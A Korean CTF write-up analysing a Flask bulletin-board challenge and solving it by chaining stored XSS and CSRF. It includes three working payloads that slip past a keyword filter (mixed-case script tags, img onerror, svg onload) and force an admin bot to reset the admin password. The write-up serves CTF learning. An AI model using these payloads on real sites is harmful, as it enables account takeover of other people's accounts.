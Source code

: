 ### 소스코드 분석 

우선 해당 문제 사이트에 접속하면 어떤 기능들이 있는지 확인해 본다. Register, Login을 거치면 게시판 페이지를 만날 수 있다. `Write`와 `Logout` 기능이 구현되어 있으며 글을 작성하면 `게시판으로 돌아가기`와 `읽기 요청 보내기` 버튼이 존재한다. 게시판에는 admin이 작성한 “flag”라는 제목의 글이 존재한다. admin이 아닌 id와 pw로 로그인해서 접근해봤을 때 “You are not authorized to view this message”라는 메시지를 얻을 수 있다. 

전체적인 흐름을 봤을 때,  글쓰기 기능을 통해 공격을 시도한 뒤 관리자에게 글 읽기 요청을 보내고, admin의 계정을 탈취해서 flag라는 글을 읽어야 할 것이라고 추측해볼 수 있다. 


다음으로 app.py를 분석해 본다. 

```python
def xss_check(content):
    xss_filter = ["script", "frame", "obejct", "data", "alert","fetch","XMLHttpRequest","eval"]
    for _ in xss_filter:
         content = content.replace(_, "*")
    return content
```

```python
@app.route("/write", methods=["GET", "POST"])
@login_required
def write():
    if not current_user.is_authenticated:
        return redirect(url_for('login'))
    if request.method == "GET":
        return render_template("write.html")
    else:
        new_title = request.form.get("new_title")
        new_content = request.form.get("new_content")
        new_content = xss_check(new_content)
        new_message = {"title": new_title, "content": new_content, "author": current_user.username}
        bulletin_messages.append(new_message)
        return redirect(url_for('bulletin_board'))
```

/write로 글을 작성할 때 xss_check는 하고 있지만 사용자의 입력을 그대로 new_content에 받고 있어 XSS 취약점이 발생한다. 

```python
@app.route("/read_request/<int:message_id>")
@login_required
def read_request(message_id):
    if 0 <= message_id < len(bulletin_messages):
        message = bulletin_messages[message_id]
        if current_user.username == message["author"]:
            url = f"http://ecs-winner.chals.io/bulletin_content/{message_id}"
            admin_password = FLAG
            result = read_url(url, {"name": "admin", "value": generate_password_hash(admin_password)}, username="admin", password=admin_password)
            if result:
                return "Read request successfully sent!"
            else:
                return "Error in sending read request."
        else:
            return "You are not authorized to send a read request for this message."
    return "Invalid message ID"
```

/write로 작성한 글을 /bulltin_content로 확인해볼 수 있다. `읽기 요청 보내기` 버튼을 누르면 /read_request에 의해 해당 페이지의 url이 read_url로 전달되는 것을 확인할 수 있다. 

```jsx
def read_url(url, params, username="admin", password=None):
    try:
        capabilities = DesiredCapabilities.CHROME
        capabilities['goog:loggingPrefs'] = {'performance': 'ALL'}
        chrome_options = Options()
        chrome_options.add_argument('--headless')
        driver = webdriver.Chrome(options=chrome_options)
        if username and password:
            driver.get("http://ecs-winner.chals.io/login")
            element = WebDriverWait(driver, 10).until(
                EC.presence_of_element_located((By.NAME, "username"))
            )
            element.send_keys(username)
            element = WebDriverWait(driver, 10).until(
                EC.presence_of_element_located((By.NAME, "password"))
            )
            element.send_keys(password)
            element.submit()
        driver.get(url)
        max_wait_time = 1000
        WebDriverWait(driver, max_wait_time).until(
            EC.presence_of_element_located((By.TAG_NAME, 'body'))
        )
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False
```

read_url에서는 selenium을 사용해서 url을 읽는다. /read_request에서 `read_url(url, {"name": "admin", "value": generate_password_hash(admin_password)}, username="admin", password=admin_password)` 으로 파라미터를 주었기 때문에, admin으로 로그인된 채로 요청된 url을 읽는다.

```python
@app.route("/changepw", methods=["POST"])
def changepw():
    userid = request.form.get("userid")
    userpw = request.form.get("userpw")

    if userid in users:
        old_password_hash = users[userid]
        users[userid] = generate_password_hash(userpw)
        return redirect(url_for('login'))
    
    return render_template("changepw.html", msg="false")
```

/changepw는 페이지에 접속해서는 볼 수 없는 엔드포인트이다. 해당 부분은 `POST 방식`의 요청만 가능하며, 사용자가 입력한 id와 pw를 가져와서 user에 해당 id가 존재할 경우에 비밀번호를 변경해준다. <br></br>

### 문제 풀이
코드를 분석한 결과, 예상되는 공격 시나리오는 다음과 같다. 

1. 게시글 작성을 통해 /changepw에 POST 요청을 보낸 후 admin 계정의 pw를 임의의 문자로 변경하는 스크립트를 작성한다.
2. 작성한 글의 /bulltin_content로 접속해 읽기 요청 버튼을 누른다. 
3. 현재 계정에서 로그아웃한 뒤, pw가 변경된 admin 계정으로 로그인해 flag를 확인한다. <br></br>

### 문제 해결
```html
<!--changepw.html-->
<form method="POST" action="/changepw">
        <label for="userid">Username:</label>
        <input type="text" id="userid" name="userid" required>
        
        <label for="userpw">New Password:</label>
        <input type="text" id="userpw" name="userpw" required>
        
        <button type="submit">Change Password</button>
    </form>
```

changepw.html의 형식을 확인한 뒤, 이에 알맞는 공격을 /write에 작성한다.  다음 내용들을 유의해야 한다. 
1. admin이 해당 글을 읽었을 때, /changpw에<form>내용의 POST 요청이 자동으로 이루어지는 것이 좋다.
2. xss_check를 하고 있으므로, 이를 우회해야 한다. <br></br>

### 공격 스크립트 예시 
```jsx
//대소문자 이용한 우회
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw">     
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="aaa">     
   <button type="submit">Change Password</button> 
</form> 
<ScripT>     
   document.getElementById("csrf").submit(); 
</scrIpT>
```

```jsx
//img 태그, onerror 이용
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw">     
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="bbb">     
   <button type="submit">Change Password</button> 
</form> 
<img src=x onerror="document.getElementById('csrf').submit();">
```

```jsx
//svg/onload 이용 
<form id="csrf" method="POST" action="https://ecs-winner.chals.io/changepw" onload="submit()">
   <input type="text" id="userid" name="userid" value="admin">     
   <input type="text" id="userpw" name="userpw" value="ccc">     
   <button type="submit">Change Password</button> 
  </form>
<svg/onload=document.getElementById("csrf").submit();>
```

해당 내용을 /write에 작성한 뒤, 읽기 요청을 보내고 나면 admin으로 로그인해서 “flag” 글을 읽을 수 있다.
